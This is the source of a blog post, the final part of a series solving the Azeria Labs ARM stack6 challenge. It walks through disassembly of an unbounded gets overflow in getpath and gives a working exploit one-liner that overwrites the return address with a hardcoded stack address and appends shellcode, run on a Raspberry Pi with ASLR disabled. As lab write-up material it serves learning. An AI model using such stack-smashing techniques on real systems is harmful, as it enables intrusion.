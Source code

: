 ```yaml
---
layout: post
title: "Smashing ARM Stack for Fun - Part VII"
tags: reversing exploiting ARM iasm azeria-labs egg shellcode PIC
---
```


It's time to solve the last challenge of this 7 part serie.<!--more-->


## The vuln

This time the overflow is not in `main` but in called function named
`getpath` but besides that, it is the classical unbounded `gets`
vulnerability.

```nasm
pwndbg> pdisass &main 10
 ► 0x10560 <main>                 push   {fp, lr}
   0x10564 <main+4>               add    fp, sp, #4
   0x10568 <main+8>               sub    sp, sp, #8
   0x1056c <main+12>              str    r0, [fp, #-8]
   0x10570 <main+16>              str    r1, [fp, #-0xc]
   0x10574 <main+20>              bl     #getpath <getpath>

   0x10578 <main+24>              mov    r0, r3
   0x1057c <main+28>              sub    sp, fp, #4
   0x10580 <main+32>              pop    {fp, pc}
```

{% marginmarkdowncode
'
```nasm
pwndbg> p (char*)(*(0x104e8 + 0x60 + 0x8))
$7 = 0x105f8 "input path please: "

pwndbg> p (char*)(*(0x10524 + 0x2c + 0x8))
$8 = 0x1060c "bzzzt (%p)\n"

pwndbg> p (char*)(*(0x1053c + 0x18 + 0x8))
$9 = 0x10618 "got path %s\n"
```
'
'' %}

Here is the `getpath` function. I added some notes in addition to the
disassembly:

```nasm
pwndbg> pdisass &getpath 15
 ► 0x104d8 <getpath>        push   {r4, fp, lr}
   0x104dc <getpath+4>      add    fp, sp, #8
   0x104e0 <getpath+8>      sub    sp, sp, #0x4c
   0x104e4 <getpath+12>     mov    r4, lr
   0x104e8 <getpath+16>     ldr    r0, [pc, #0x60]
   0x104ec <getpath+20>     bl     #printf@plt <printf@plt> ; "input path please: "

   0x104f0 <getpath+24>     ldr    r3, [pc, #0x5c]
   0x104f4 <getpath+28>     ldr    r3, [r3]
   0x104f8 <getpath+32>     mov    r0, r3
   0x104fc <getpath+36>     bl     #fflush@plt <fflush@plt>

   0x10500 <getpath+40>     sub    r3, fp, #0x50
   0x10504 <getpath+44>     mov    r0, r3
   0x10508 <getpath+48>     bl     #gets@plt <gets@plt>

   0x1050c <getpath+52>     mov    r3, r4
   0x10510 <getpath+56>     str    r3, [fp, #-0x10]
   0x10514 <getpath+60>     ldr    r3, [fp, #-0x10]
   0x10518 <getpath+64>     and    r3, r3, #0xbf000000  ; bin 1011 1111 0...
   0x1051c <getpath+68>     cmp    r3, #0xbf000000
   0x10520 <getpath+72>     bne    #getpath+96 <getpath+96>

   0x10524 <getpath+76>     ldr    r0, [pc, #0x2c]
   0x10528 <getpath+80>     ldr    r1, [fp, #-0x10]
   0x1052c <getpath+84>     bl     #printf@plt <printf@plt> ; "bzzzt (%p)\n"

   0x10530 <getpath+88>     mov    r0, #1
   0x10534 <getpath+92>     bl     #_exit@plt <_exit@plt>

   0x10538 <getpath+96>     sub    r3, fp, #0x50
   0x1053c <getpath+100>    ldr    r0, [pc, #0x18]
   0x10540 <getpath+104>    mov    r1, r3
   0x10544 <getpath+108>    bl     #printf@plt <printf@plt> ; "got path %s\n"

   0x10548 <getpath+112>    sub    sp, fp, #8
   0x1054c <getpath+116>    pop    {r4, fp, pc}
```


Writing 0x50 bytes we overwrite the stack just before
writing the *ret* address: 0x4 more bytes and we are done.

```nasm
 ► 0x104d8 <getpath>        push   {r4, fp, lr}
   0x104dc <getpath+4>      add    fp, sp, #8
   ...
   0x10500 <getpath+40>     sub    r3, fp, #0x50
   0x10504 <getpath+44>     mov    r0, r3
   0x10508 <getpath+48>     bl     #gets@plt <gets@plt>
```

{% maincolumnditaa %}
 fp + 0x50            fp points here
   |                   |
   v                   v                      ||
-------- main ---------+------+---- start --  || stack before
   xxxxxxxx   r4   fp  |  lr  |  xxxxxxx  ... || the overflow
----- ^ ----- ^ -- ^ --+-- ^ -+-------------  ||
      |       |    |       |                  ||
   buffer    saved registers
{% endmaincolumnditaa %}


The stack pointer `sp` after `getpath`
returns will be at *4 bytes more*  than `fp` *before* the return:

```nasm
(gdb) x/1wx $fp   ; before getpath returns
0xbefffb84:     0x00010578 ; <-- ret address (to main)

(gdb) bt
#0  0x000104e8 in getpath ()
#1  0x00010578 in main ()
```

{% maincolumnditaa %}
                             sp points here
                              |
                              v               ||
-------- main ----------------+---- start --  || stack after
   AAAAAAAA   AA   AA      sp |  eeeeeee  ... || the overflow
----- ^ ----- ^ -- ^ ----- ^ -+- ^ ---------  ||
      |       |    |       |     |            ||
      \-- padding -/   befffb88  egg
{% endmaincolumnditaa %}

## The attack (without DEP and ASLR)

The `egg.text` is the same one used in the
[part 6](/articles/2021/01/26/Smashing-ARM-Stack-for-Fun-Part-VI.html).

```shell
pi@raspberrypi:~$ echo -ne 'AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\x88\xfb\xff\xbe' > exploit
pi@raspberrypi:~$ cat egg.text >> exploit

pi@raspberrypi:~$ rm -f pwned_proof

pi@raspberrypi:~$ setarch linux32 --addr-no-randomize /bin/bash

(aslr disabled) pi@raspberrypi:~$ cat exploit | ./stack6
(aslr disabled) pi@raspberrypi:~$ echo $?
0

(aslr disabled) pi@raspberrypi:~$ cat pwned_proof
pwn!
```

## Future work

This is the last part of the
[ARM challenges](https://github.com/azeria-labs/ARM-challenges) from
[Azeria Labs](https://azeria-labs.com).

However there are a lot of things to explore, tweak and stretch.

In the
[part 6](/articles/2021/01/26/Smashing-ARM-Stack-for-Fun-Part-VI.html)
I coded a ARM egg, the next obvious step would be write the same egg in
Thumb mode.

So far, the egg was always loaded in the stack and executed there. In
these modern days, the stack is **not** executable so it would be cool
to learn how to bypass this restriction (known as Data Execution
Prevention *DEP* or Write-xor-Execute *W+E*).


Since [part 5](/articles/2021/01/20/Smashing-ARM-Stack-for-Fun-Part-V.html)
we were *hardcoding* addresses. *Shame on me*.

Address Space Layout Randomization *(ASLR)* is a well established feature
of modern OS to randomize the *base address* of the loaded libraries.
Bypassing techniques exist since at least 2007 so it is a definitely
topic to learn.
